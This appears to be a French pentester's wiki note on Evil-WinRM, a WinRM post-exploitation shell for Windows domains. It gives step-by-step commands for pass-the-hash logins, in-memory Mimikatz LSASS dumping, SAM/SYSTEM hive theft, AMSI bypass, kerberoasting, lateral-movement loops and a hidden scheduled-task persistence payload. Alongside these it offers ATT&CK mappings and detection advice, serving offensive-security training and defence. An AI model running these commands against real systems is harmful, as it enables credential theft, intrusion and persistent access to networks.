

# Evil-WinRM — Active Directory & Windows

> [!info] **En 1 phrase**
> Evil-WinRM est un **shell WinRM en Ruby** : il se connecte aux machines Windows via le **port 5985 (HTTP) / 5986 (HTTPS)** avec un utilisateur ou un **hash NTLM**, et fournit des fonctions de post-exploitation.

---

## Overview

| Champ | Détail |
|---|---|
| **Nom** | Evil-WinRM |
| **Type** | Shell à distance / post-exploitation |
| **Licence** | LGPL-3.0 |
| **Langage** | Ruby |
| **Développeur** | Hackplayers |
| **Dépositaires** | `github.com/Hackplayers/evil-winrm` |
| **Installation** | `gem install evil-winrm` ou paquet Kali/Parrot (`apt install evil-winrm`) |
| **Pré-requis** | Ruby, gems `winrm` (≥ 2.3.7) et `winrm-fs` (≥ 1.3.2), accès WinRM (port 5985/5986) |
| **Plateformes** | Windows (cible), Linux/macOS (attaquant) |
| **Objectif** | Obtenir un shell PowerShell interactif, charger des scripts en mémoire, pivoter (Pass-the-Hash / Pass-the-Ticket) |

---

## Concept

WinRM est activé par défaut sur les serveurs Windows (2012+) et sur les postes joints au domaine : dès qu'un compte appartient aux **Administrateurs locaux** ou au groupe **Remote Management Users**, on obtient un shell **PowerShell** à distance. Evil-WinRM ajoute la post-exploitation : chargement de scripts, exécution d'exe **en mémoire**, upload/download, gestion des services.

Il se place dans la phase **post-exploitation / Active Directory** d'un engagement : après la compromission initiale, on récupère souvent des hashes NTLM via `secretsdump.py` (Impacket) ou Mimikatz, puis on les rejoue avec Evil-WinRM pour se connecter aux autres machines du domaine sans connaître le mot de passe en clair (Pass-the-Hash). Il fonctionne aussi avec des tickets Kerberos (ccache) et des comptes de service, et s'intègre à un flux d'analyse des logs Windows via les événements 4624.

Côté shell, Evil-WinRM est plus qu'un simple PowerShell distant : il charge des scripts `.ps1` en mémoire (`load`), exécute des binaires sans les écrire sur disque (`Invoke-Binary`), transfère des fichiers (`upload`/`download`), liste les services, et peut contourner AMSI (`-a` / commande `set AMSI`). Son mode interactif (`menu`) rappelle l'usage d'un framework de post-exploitation léger, sans dépendre d'un agent qui serait chargé sur la cible.



---

## Concepts fondamentaux

| Concept | Rôle dans Evil-WinRM |
|---|---|
| **WinRM (WS-Management)** | Protocole de gestion à distance SOAP sur 5985 (HTTP) / 5986 (HTTPS), exposé via le service `WinRM` |
| **Authentification NTLM** | Rejeu d'un hash NTLM sans mot de passe en clair (Pass-the-Hash) |
| **Kerberos / ccache** | Rejeu d'un ticket TGT/TGS pour les environnements Kerberos uniquement (`-r` + `KRB5CCNAME`) |
| **PowerShell** | Canal d'exécution : chaque commande Evil-WinRM est exécutée dans une session PowerShell distante |
| **AMSI** | Antimalware Scan Interface : peut bloquer les scripts ; Evil-WinRM propose un bypass (`-a`) |
| **Groupe Remote Management Users** | Membre du groupe = autorisé à se connecter via WinRM (avec un compte non admin) |
| **Session PowerShell (PSSession)** | Evil-WinRM s'appuie sur `WinRM::Shell` (gem winrm) pour dialoguer avec la cible |
| **Invoke-Binary** | Exécution d'un exe chargé en mémoire via `System.Reflection.Assembly` |
| **LAPS** | Solution de mots de passe administrateur local unique par machine : contourne le partage du même mot de passe local |

---

## Installation

### Pré-requis

| Dépendance | Rôle | Note |
|---|---|---|
| Ruby ≥ 2.3 | Runtime de l'outil | Présent par défaut sur Kali |
| Gem `winrm` ≥ 2.3.7 | Protocole WinRM (authentification, shell) | Installée automatiquement avec Evil-WinRM |
| Gem `winrm-fs` ≥ 1.3.2 | Transfert de fichiers via WinRM | Installée automatiquement |
| `ruby-dev`, `make`, `gcc` | Compilation des gems natives | Nécessaires sur certaines distributions |

### Installation

```bash
# Via gem (méthode recommandée)
gem install evil-winrm

# Depuis les sources (développement)
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm && bundle install

# Kali / Parrot : paquet disponible
sudo apt install evil-winrm

# Vérification
evil-winrm -h
```

> [!note] À vérifier
> La version installée par `apt` peut être plus ancienne que celle du gem : préférer `gem install` pour disposer des dernières fonctions (`-a`, `set AMSI`, etc.).

## Configuration

Evil-WinRM n'a pas de fichier de configuration : tout se passe par **options en ligne de commande**. Les chemins de scripts/exécutables peuvent être centralisés dans des dossiers dédiés (`-s`, `-e`) pour faciliter le replay sur plusieurs hôtes. Les variables d'environnement (`KRB5CCNAME`) et un fichier `~/.ssh/config` n'ont pas d'effet direct ici : la configuration repose sur les flags.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-i <IP>` | Cible WinRM | IP ou hostname | Définit la machine visée | `-i 192.168.1.10` |
| `-u <user>` | Utilisateur de connexion | `DOMAIN\user` ou `user@domain` | Détermine les droits du shell | `-u CORP\Admin` |
| `-p <pass>` | Mot de passe en clair | Chaine de caractères | Alternative au hash (NTLM) | `-p 'P@ssw0rd!'` |
| `-H <hash>` | Hash NTLM | Hash 32 hex (ou LM:NT) | **Pass-the-Hash** : pas besoin du mot de passe | `-H 64f12cdd...` |
| `-P <port>` | Port WinRM | 5985 (défaut) ou 5986 | Adapte le port si non standard | `-P 5986` |
| `-S` | SSL / HTTPS | flag booléen | Active le chiffrement (certificat auto-signé toléré) | `-i ... -S -P 5986` |
| `-s <dossier>` | Dossier des scripts `.ps1` | Chemin local | Active la commande `load` | `-s /opt/scripts` |
| `-e <dossier>` | Dossier des exécutables | Chemin local | Active `Invoke-Binary` et upload | `-e /opt/tools` |
| `-c <cert>` / `-k <key>` | Certificat + clé (auth mutuelle) | Chemins de fichiers | Authentification par certificat | `-c cert.pem -k key.pem` |
| `-r <realm>` | Domaine Kerberos (realm) | FQDN | Utilise l'authentification Kerberos | `-r CORP.LOCAL` |
| `-a` | Désactivation AMSI | flag booléen | Évite le blocage des scripts en mémoire | `-a` |
| `-n` | Pas de coloration | flag booléen | Sortie propre pour scripts/parsing | `-n` |
| `-N` | Pas de logo/bannière | flag booléen | Moins de bruit au lancement | `-N` |
| `-l` / `-L` | Liste des fonctions internes / scripts | flag booléen | Aide rapide des commandes disponibles | `-l` |
| `-t <intervalle>` | Temps d'attente entre commandes | secondes | Réduit le risque de détection (lenteur volontaire) | `-t 2` |
| `-h` | Aide complète | flag booléen | Affiche toutes les options | `-h` |

---

## Architecture interne

- **Composants** : Evil-WinRM est une classe Ruby unique (`EvilWinRM`) qui encapsule la gem `winrm` (transport WS-Management, authentification NTLM/Kerberos) et la gem `winrm-fs` (transferts de fichiers).
- **Canal d'exécution** : chaque commande est envoyée via un shell WinRM (`WinRM::Shell::Shell`) — Evil-WinRM établit une PSSession PowerShell à distance et envoie les commandes en base64/XML SOAP.
- **Désactivation des aliases** : il définit des raccourcis (`whoami`, `ipconfig`, `download`, `upload`, `load`, `menu`…) qui mappent les commandes PowerShell natives vers ses propres fonctions.
- **Chargement en mémoire** : `load <script.ps1>` lit le fichier localement puis exécute son contenu dans la session distante via `Invoke-Expression` — rien n'est écrit sur le disque cible.
- **Invoke-Binary** : le binaire est lu en octets, encodé et injecté via `[System.Reflection.Assembly]::Load()` puis exécuté — l'exe n'est jamais déposé sur la cible.
- **Sessions parallèles** : plusieurs fenêtres Evil-WinRM peuvent être ouvertes vers plusieurs machines ; chaque instance est une session indépendante (pas de gestion centralisée).
- **Modules externes** : l'outil charge dynamiquement des fonctions (ex. `Invoke-Mimikatz`, `PowerView`, `Get-ComputerDetails`) en les plaçant dans `evil-winrm/` ou via `-s` : cela permet d'étendre la post-exploitation sans modifier le code principal.

---

## Commandes

### Commandes principales

```bash
# Connexion simple avec mot de passe
evil-winrm -i 192.168.1.10 -u Admin -p 'P@ssw0rd!'

# Pass-the-Hash NTLM
evil-winrm -i 192.168.1.10 -u Admin -H 64f12cddaa88057e06a81b54e73b949b

# HTTPS + port custom
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -S -P 5986

# Préparer les dossiers scripts / exe
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -s /opt/scripts -e /opt/tools

# Kerberos via ccache (realm + variable d'environnement)
export KRB5CCNAME=/tmp/admin.ccache
evil-winrm -i dc01.corp.local -u Admin@CORP.LOCAL -r CORP.LOCAL

# Désactiver la coloration + vérifier la connexion
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -N -n
```

| Commande interne | Effet |
|---|---|
| `menu` | liste les fonctions chargées |
| `load Invoke-Mimikatz` | charge Mimikatz **en mémoire** |
| `upload fichier` / `download fichier` | transfert de fichiers |
| `Invoke-Binary /opt/tools/x.exe` | exécute un exe en mémoire |
| `services` | liste les services Windows |
| `whoami /all` | token + groupes |
| `set AMSI true/false` | active/désactive le bypass AMSI à chaud |
| `exit` | ferme proprement la session WinRM |

### Commandes avancées

```bash
# Attente entre commandes (anti-détection temporelle)
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -t 2

# Authentification mutuelle par certificat
evil-winrm -i 192.168.1.10 -u Admin -c cert.pem -k key.pem -S

# Liste des fonctions internes disponibles
evil-winrm -l

# Dans la session : énumération réseau + collecte de creds
evil-winrm ... # puis :
ipconfig /all
net view /domain
net group "Domain Admins" /domain
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-i <IP>` | IP ou hostname de la cible | `evil-winrm -i 192.168.1.10 -u Admin -H <hash>` | Basic |
| `-u <user>` | Utilisateur (`DOMAIN\user` ou `user@domain`) | `-u CORP\Admin` | Basic |
| `-p <pass>` | Mot de passe en clair | `-p 'P@ssw0rd!'` | Basic |
| `-H <hash>` | Hash NTLM (Pass-the-Hash) | `-H 64f12cddaa88057e06a81b54e73b949b` | Basic |
| `-P <port>` | Port WinRM | `-P 5986` | Intermediate |
| `-S` | SSL / HTTPS | `-S -P 5986` | Intermediate |
| `-s <dossier>` | Scripts `.ps1` chargeables | `-s /opt/scripts` | Intermediate |
| `-e <dossier>` | Exécutables uploadables | `-e /opt/tools` | Intermediate |
| `-c <cert>` / `-k <key>` | Auth mutuelle par certificat | `-c cert.pem -k key.pem` | Advanced |
| `-r <realm>` | Domaine Kerberos (realm) | `-r CORP.LOCAL` | Advanced |
| `-a` | Bypass AMSI | `-a` | Advanced |
| `-t <sec>` | Délai entre commandes | `-t 2` | Advanced |
| `-n` / `-N` | Pas de couleur / pas de logo | `-n -N` | Basic |
| `-l` / `-L` | Liste fonctions / scripts | `-l` | Basic |

> [!tip] Options les plus utiles au quotidien
> `-H` (Pass-the-Hash) pour éviter le mot de passe, `-s` + `-e` pour organiser scripts et binaires, `-S` pour les cibles HTTPS.

## Exemples pratiques

### Beginner

```bash
# Se connecter et prendre un shell
evil-winrm -i 192.168.1.10 -u Admin -H 64f12cddaa88057e06a81b54e73b949b
# Dans la session :
whoami /all
ipconfig /all
```

### Intermediate

```bash
# Charger PowerView pour l'énumération AD
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -s /opt/scripts
# Dans la session :
load PowerView.ps1
Get-DomainUser -SPN | Select samaccountname
Get-DomainGroupMember -Identity "Domain Admins"
```

### Advanced

```bash
# Exécuter un binaire en mémoire sans le déposer
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -e /opt/tools
# Dans la session :
Invoke-Binary /opt/tools/Rubeus.exe -- kerberoast
Invoke-Binary /opt/tools/SharpHound.exe -- -c All
```

### Expert

```bash
# Attente volontaire + bypass AMSI + exfil
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -a -t 3 -e /opt/tools -s /opt/scripts
# Dans la session :
download C:\Windows\Temp\bloodhound_20260101.zip /tmp/bh.zip
set AMSI false
```

---

## Workflow complet (scénario pas à pas)

Scénario : vous avez récupéré le **hash NTLM** de `Admin` via `secretsdump.py`.

1. **Se connecter** : `evil-winrm -i 192.168.1.10 -u Admin -H 64f12...`
2. **Vérifier** le contexte : `whoami` puis `whoami /all`.
3. **Charger Mimikatz** : `load Invoke-Mimikatz` puis `Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'`
4. **Exfiltrer** : `download C:\Users\Admin\Desktop\...` ou exécuter SharpHound via `Invoke-Binary`.
5. **Étendre au domaine** : réutiliser les hashes récupérés (`sekurlsa::logonpasswords`) pour pivoter vers d'autres machines avec `evil-winrm -H <nouveau-hash>`.
6. **Nettoyer** : supprimer les fichiers temporaires créés et vérifier que la session ne laisse pas de processus résiduel.

---

## Scénarios avancés

### Scénario 1 : Pass-the-Hash sur plusieurs machines du domaine

```bash
for host in dc01 app01 web01; do
  evil-winrm -i $host -u Admin -H <hash-NTLM> -s /opt/scripts -e /opt/tools
done
# Un seul hash d'administrateur local peut ouvrir plusieurs postes partageant le mot de passe.
```

### Scénario 2 : exécution d'un script SharpHound en mémoire

```bash
# Sur la session Evil-WinRM :
Invoke-Binary /opt/tools/SharpHound.exe
# puis télécharger le fichier ZIP des résultats BloodHound :
download C:\Users\Admin\SharpHound\20240101000000_BloodHound.zip /tmp/
```

### Scénario 3 : dump du registre SAM/SYSTEM pour d'autres comptes locaux

```bash
# Sur la session Evil-WinRM :
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
download C:\temp\SAM /tmp/SAM
download C:\temp\SYSTEM /tmp/SYSTEM
# puis extraire les hashes avec secretsdump.py sur Kali.
```

### Scénario 4 : collecte de l'audit de domaine avec SharpHound

```bash
# Sur la session Evil-WinRM :
Invoke-Binary /opt/tools/SharpHound.exe -- -c All
# Puis récupérer le fichier ZIP généré :
download C:\Users\Admin\BloodHound\<fichier>.zip /tmp/bloodhound.zip
# Importer dans BloodHound pour cartographier les chemins de compromission du domaine.
```

### Scénario 5 : persistance via une tâche planifiée

```bash
# Sur la session Evil-WinRM :
schtasks /Create /TN "Updater" /TR "powershell -nop -w hidden -c \"IEX(...)\"" /SC ONLOGON
# La tâche exécute le payload à chaque logon, sans écrire de service ni de fichier .exe.
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Post-exploitation | Obtention d'un shell PowerShell sur Windows depuis un hash NTLM / mot de passe |
| Privilège Escalation | Exécution de scripts d'énumération (PowerView, Seatbelt) et de binaires en mémoire |
| Lateral Movement | Rejeu de hashes récupérés vers d'autres machines (Pass-the-Hash multi-hôtes) |
| Credential Access | Dump LSASS/SAM via Mimikatz ou secretsdump à distance |
| Persistance | Création de tâches planifiées ou services via WinRM |
| Exfiltration | `download` de fichiers sensibles, `upload` de payloads |
| Blue team / incident | Accès d'urgence à un serveur Windows (si autorisé) et récupération d'artefacts |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Lateral Movement | Remote Services : Windows Remote Management | T1021.006 | Evil-WinRM se connecte via WinRM (5985/5986) pour exécuter des commandes | Événements 4624 Type 3, journal `Microsoft-Windows-WinRM`, alerting sur 5985/5986 | Limiter le groupe Remote Management Users, filtrer le réseau, désactiver WinRM si inutile |
| Lateral Movement | Remote Services : SMB/Admin Shares (via services) | T1021.002 | Création de services à distance (`services` / sc.exe) | Événement 7045, alerting sur création de service | Surveiller les créations de services, restriction SCM |
| Execution | Command and Scripting Interpreter : PowerShell | T1059.001 | Chaque commande est exécutée dans une session PowerShell | Script block logging (Event 4104), AMSI | AMSI + script block logging activés |
| Defense Evasion | Obfuscated Files or Information | T1027 | `Invoke-Binary` et `load` exécutent en mémoire, souvent obfusqués | 4104, signatures AV/EDR sur PowerShell | EDR, AMSI, contrôle de l'exécution PowerShell |
| Credential Access | OS Credential Dumping : LSASS Memory | T1003.001 | `load Invoke-Mimikatz` → dump LSASS | Event 10 (Sysmon, accès LSASS), 4104 | Credential Guard, protection LSA |
| Persistence | Scheduled Task / Job | T1053.005 | Création de tâches planifiées (`schtasks`) | Événement 4698, alerting sur création de tâches | Surveillance des tâches planifiées, baselines |
| Defense Evasion | Bypass AMSI | T1562.006 | `-a` / `set AMSI false` contourne l'interface antimalware | Détection du bypass AMSI (patching) | EDR détectant les modifications d'AMSI |

---

## Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Connexions SOAP WinRM (5985/5986) depuis une IP non attendue, sessions PowerShell distantes répétées |
| **Journal Windows** | Événement 4624 (logon Type 3), 4104 (PowerShell script block), 7045 (nouveau service), 4698 (tâche planifiée), journal WinRM |
| **Surveillance** | Alerter sur les connexions entrantes 5985/5986 depuis des sources inconnues, corréler avec l'heure des logons 4624 |
| **Mesures de prévention** | Restreindre le groupe Remote Management Users, désactiver WinRM sur les machines qui n'en ont pas besoin, filtrer les flux réseau |
| **Réduction de la surface** | Ne pas partager le même mot de passe admin local (utiliser [[Outil - BloodHound]] + LAPS), limiter les comptes de service avec WinRM |
| **Outils de détection** | EDR, AMSI + script block logging, honeypot WinRM, corrélation SIEM sur les 4624 |

> [!tip] Bien comprendre ce que Evil-WinRM exploite
> Evil-WinRM exploite le service WinRM légitime de Windows : en durcissant WinRM et en surveillant ses événements, on réduit fortement la surface sans casser la gestion à distance légitime.

## Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Pivot automatisé multi-machines | Boucle bash | `for h in dc01 app01; do evil-winrm -i $h -u Admin -H <hash> -c cmd.txt; done` |
| Exécution d'une commande en non-interactif | stdin / pipe | `echo 'whoami /all' \| evil-winrm -i 192.168.1.10 -u Admin -H <hash>` |
| Collecte récurrente de résultats | Cron | `0 3 * * * evil-winrm -i dc01 -u svc -H <hash> -c collect.ps1 >> /var/log/evwr.txt` |
| Déploiement d'un binaire | `upload` | `upload /opt/tools/Seatbelt.exe C:\Windows\Temp\` |
| Rotation de creds | Script d'orchestration | Générer un nouveau hash via secretsdump puis relancer Evil-WinRM |

> [!note] À vérifier
> Le mode non-interactif (pipe de commandes) fonctionne pour un usage simple mais certaines commandes interactives (`load`, `menu`) exigent un terminal : vérifier sur la version installée.

---

## Output et parsing

- **Sortie console** : Evil-WinRM affiche les résultats des commandes dans la console (couleurs désactivables avec `-n`).
- **Fichiers** : l'essentiel de la production est côté cible (fichiers créés par les commandes) et localement via `download`.
- **Parsing** : les sorties de commandes (ex. `whoami /all`, `net group`) peuvent être redirigées vers un fichier local, puis traitées avec `grep`/`awk`.

```bash
# Capturer la sortie d'une session pour analyse
evil-winrm -i 192.168.1.10 -u Admin -H <hash> -c whoami >> session.log
grep -i 'S-1-5-32-544' session.log   # Administrateurs locaux
```

> [!note] À vérifier
> `-c <commande>` exécute une commande unique puis sort : la syntaxe exacte dépend de la version installée (lister avec `evil-winrm -h`).

---

## Intégrations

| Outil | Usage dans l'écosystème Evil-WinRM |
|---|---|
| [[Outil - Impacket]] | Récupération des hashes (`secretsdump.py`) puis Pass-the-Hash avec Evil-WinRM |
| [[Outil - Mimikatz]] | Chargé **en mémoire** via `load Invoke-Mimikatz` |
| [[Outil - BloodHound]] | `Invoke-Binary SharpHound.exe` puis download du zip pour cartographier le domaine |
| [[Outil - Rubeus]] | `Invoke-Binary Rubeus.exe` pour Kerberoasting / AS-REP Roasting |
| [[Outil - Nmap]] | Détection du service WinRM (5985/5986) avant connexion : `nmap -p5985,5986 192.168.1.10` |
| [[Outil - CrackMapExec]] | Confirmer les credentials valides (`crackmapexec winrm ...`) avant de lancer Evil-WinRM |
| PowerView | Énumération AD (domaine, sessions, ACL) chargée via `load` |
| secretsdump / SAM | Extraction de hashes locaux après `reg save` via la session |

---

## Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **WinRM natif PowerShell** | `Enter-PSSession` sans post-exploitation (pas de `load`, `Invoke-Binary`) | Usages légitimes simples |
| **psexec.py (Impacket)** | Service SCM, SMB (445), autre surface de détection | Quand WinRM est désactivé |
| **wmiexec.py (Impacket)** | Exécution via WMI (135/RPC), semi-interactif | WinRM coupé, WMI ouvert |
| **ssh** | Si OpenSSH Server est installé sur la cible | Cibles Linux/Windows avec SSH |
| **CrackMapExec** | Confirmation des creds en masse, exécution d'idempotents | Scripting / vérification de masse |

---

## Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Latence WinRM | Chaque commande est un aller-retour SOAP | Réduire le nombre de commandes, utiliser des scripts groupés |
| Volumétrie des scripts | `load` d'un gros `.ps1` est plus lent | Charger uniquement les fonctions nécessaires |
| Détection temporelle | Exécution rapide de beaucoup de commandes = bruyant | `-t 2` pour espacer les commandes |
| Multi-hôtes | Une session par machine = coût réseau | Ne pivoter que sur les machines utiles (via BloodHound) |
| Transferts | `upload`/`download` de gros fichiers = lent via WinRM | Limiter la taille, compresser avant transfert |

---

## Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| `connection refused` sur 5985 | WinRM désactivé ou firewall | Activer WinRM (`winrm quickconfig` si autorisé) ou vérifier le port | `Test-NetConnection -Port 5985` |
| Échec d'authentification NTLM | Hash invalide ou compte sans droits | Vérifier le hash, les membres de groupes admin/Remote Management Users | Re-tester avec `crackmapexec winrm` |
| `load` ne charge pas le script | Script bloqué par AMSI / politique d'exécution | `-a` pour bypass AMSI, vérifier la version PowerShell | `Get-ExecutionPolicy` côté cible |
| Erreur de certificat HTTPS | Certificat auto-signé / non fiable | Evil-WinRM tolère les self-signed ; vérifier `-S` | `evil-winrm ... -S -P 5986` |
| Kerberos échoue | Pas de ticket, mauvais realm | `export KRB5CCNAME=...` et `-r CORP.LOCAL` | `klist` local, `Get-ComputerInfo` côté cible |
| `-p` vs `-P` inversés | Confusion courante mot de passe/port | `-p` = password, `-P` = port | Re-relire l'aide `evil-winrm -h` |
| Gem manquante | Ruby/patch anciens | `gem update --system` puis `gem install evil-winrm` | `gem list evil-winrm` |

---

## Sécurité de l'outil

- **Credentials** : le hash NTLM ou le mot de passe sont passés en ligne de commande → visibles dans `ps`/historique shell. Préférer `read -s` ou un gestionnaire de secrets, éviter l'historique.
- **Chiffrement** : sans `-S`, WinRM est en HTTP en clair → un intercepteur peut lire les commandes ; utiliser `-S` sur les réseaux sensibles.
- **Données exfiltrées** : les fichiers `download`és contiennent souvent des secrets (hashes, tickets) → les stocker de façon chiffrée, ne pas les laisser traîner.
- **Exposition** : l'outil lui-même ne stocke rien, mais le système d'exploitation peut logguer les arguments (`-p`, `-H`) dans certains contextes → préférer `-H` aux mots de passe en clair.
- **Cible** : Evil-WinRM laisse des traces côté Windows (événements WinRM, PowerShell) ; en lab, garder le contrôle de l'outil et nettoyer les artefacts.

---

## Limitations

- **Pas d'agent** : nécessite WinRM actif et accessible (5985/5986), ce qui n'est pas toujours le cas.
- **Windows uniquement** : ne fonctionne que vers des hôtes Windows avec PowerShell.
- **Dépendances** : gems Ruby (`winrm`, `winrm-fs`) à maintenir ; les versions anciennes de PowerShell (2.0) manquent de certaines fonctions.
- **Interactivité limitée** : le mode non-interactif est rudimentaire ; certaines commandes exigent un terminal TTY.
- **Bruit** : les connexions 5985/5986 sont faciles à détecter (logons 4624, journal WinRM).
- **Pas de multitâche natif** : chaque session est indépendante, pas de commande multi-hôtes intégrée.

---

## Cheatsheet

```text
# Connexions
evil-winrm -i <IP> -u <user> -p '<pass>'                # mot de passe
evil-winrm -i <IP> -u <user> -H <hash>                  # Pass-the-Hash
evil-winrm -i <IP> -u <user> -H <hash> -S -P 5986       # HTTPS
evil-winrm -i <IP> -u <user>@<REALM> -r <REALM>         # Kerberos (ccache)
evil-winrm -i <IP> -u <user> -H <hash> -s <dir> -e <dir> # scripts + exe
evil-winrm -i <IP> -u <user> -H <hash> -a -t 2          # bypass AMSI + délai

# Dans la session
whoami /all
load Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
Invoke-Binary /opt/tools/Rubeus.exe -- kerberoast
upload /opt/tools/payload.exe C:\Windows\Temp\
download C:\Windows\Temp\out.txt /tmp/out.txt
services
schtasks /Query
set AMSI false
```

---

## Quick reference

| Situation | Action immédiate |
|---|---|
| Hash NTLM en main, WinRM ouvert | `evil-winrm -i <IP> -u <user> -H <hash>` |
| Vérifier mes droits | `whoami /all` |
| Dumper les hashes de session | `load Invoke-Mimikatz` puis `sekurlsa::logonpasswords` |
| Exécuter un binaire sans le déposer | `Invoke-Binary /opt/tools/<exe>.exe -- <args>` |
| Récupérer un fichier côté cible | `download C:\path\to\file /tmp/file` |
| Pivoter vers une autre machine | Rejouer le hash récupéré avec `evil-winrm -H <hash>` |
| WinRM en HTTPS | Ajouter `-S -P 5986` |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Événements 4624 / 4625 | logons **Type 3** via WinRM depuis une IP non attendue |
| Événement 4104 (PowerShell) | **script block logging** : `load` et `Invoke-*` visibles s'il est activé |
| Service WinRM | surveiller les connexions sur 5985/5986, limiter les sources autorisées |
| Scripts PowerShell chargés en mémoire | Activer AMSI et le script block logging (Event 4104) dès le boot |
| Tâches planifiées créées à distance (schtasks) | Contrôler les Scheduled Tasks (Autoruns), alerting sur les créations |
| Défense | restreindre le groupe **Remote Management Users**, désactiver WinRM si inutile, EDR + AMSI |

---

## Tips & Pièges

> [!tip] **Discrétion** : Evil-WinRM n'écrit **rien sur le disque** (scripts chargés en mémoire). Charge Mimikatz / SharpHound via `load` / `Invoke-Binary` plutôt que de les uploader. Combinez avec `-s` pour garder tous les scripts dans un dossier unique et faciliter le replay sur plusieurs hôtes.

> [!warning] **Piège** : `-p` = **mot de passe**, `-P` = **port**. Inverser les deux (très courant) donne une erreur de connexion. Le port par défaut sans `-S` est **5985**.

> [!warning] **Piège** : certains scripts nécessitent une politique d'exécution autorisée. Si `load` échoue, vérifiez la version de PowerShell de la cible et la présence d'AMSI bloquant (script block logging).

> [!warning] **Piège** : l'auth par hash repose sur **NTLM**. Sur une machine configurée en **Kerberos uniquement**, Evil-WinRM échoue : passe par un ticket (`-r <REALM>` + ccache) ou un autre canal (RDP, service).

---

## References

- GitHub officiel : https://github.com/Hackplayers/evil-winrm
- README (documentation) : https://github.com/Hackplayers/evil-winrm/blob/master/README.md
- Blog Hackplayers : https://www.hackplayers.com/
- The Hacker Recipes — WinRM : https://www.thehacker.recipes/ad/movement/winrm
- Groupe Remote Management Users : https://learn.microsoft.com/en-us/windows-server/security/group-policy/

**Liens :** [[Outil - Evil-WinRM]] | [[Outil - Impacket]] | [[Outil - Mimikatz]] | [[Outil - BloodHound]] | [[Outil - Rubeus]] | [[Outil - CrackMapExec]] | [[Outil - Nmap]]


